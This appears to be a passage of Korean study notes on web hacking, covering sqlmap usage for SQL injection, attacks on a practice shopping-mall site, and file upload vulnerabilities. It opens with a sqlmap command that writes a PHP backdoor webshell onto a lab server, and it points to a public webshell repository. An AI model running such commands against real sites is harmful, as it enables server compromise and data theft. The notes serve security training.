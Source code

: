 sqlmap -u "http://192.168.206.154/gm/goods_detail.php?goodsIdx=233" --file-write=/usr/share/webshells/php/php-backdoor.php --file-dest=/var/www/gm/upload/a.php

---

### SQL Injection 공격 - sqlmap 자동화 분석 - -r 옵션

vim sql.req

movie=''&action=go

sqlmap -r sql.req --dbs

---

### SQL Injection 공격 - sqlmap 자동화 분석 - --role 옵션
```
--role 옵션이란?
```

### SQL Injection 공격 - sqlmap 자동화 분석 - --technique 옵션
```
--technique 옵션이란?
```

### SQL Injection 공격 - 쇼핑몰 대상 - Blind SQL Injection

---

### SQL Injection 공격 - 쇼핑몰 대상 - Error-Based SQL Injection

---

### SQL Injection 공격 - Burp Suite를 이용한 SQLi 반자동화

---

### 파일 업로드 취약점 - 파일 업로드 취약점 공격 이해

**파일 업로드 취약점?**
● 웹 서비스 첨부 파일, 환경 설정 미흡을 이용하여 악의적인 스크립트가 포함된 파일을 업로드한 후에 웹 서버에 침투를 하는 공격
● 공격자는 서버 사이드 스크립트(PHP, JSP, .NET 등)을 이용하여 웹쉘(WebShell)을 제작
● 웹쉘(WebShell)은 원격에서 웹 서버를 제어하기 위한 목적으로 만들어졌으나, 지금은 웹쉘 =
악성코드라고 분류를 하여 안티 바이러스에서 탐지함
● 게시판 첨부 파일, 이력서 첨부 파일, 이미지 첨부 파일, 웹 채팅방 파일 공유 기능 등에서 발생
● 직접 만들어 사용할 수 있으나, https://github.com/tennc/webshell 같은 깃허브에서 쉽게
구할 수 있음

---

### 파일 업로드 취약점 - 파일 업로드 취약점 공격 목적

1. 웹 서버를 통해 데이터베이스의 정보를 획득
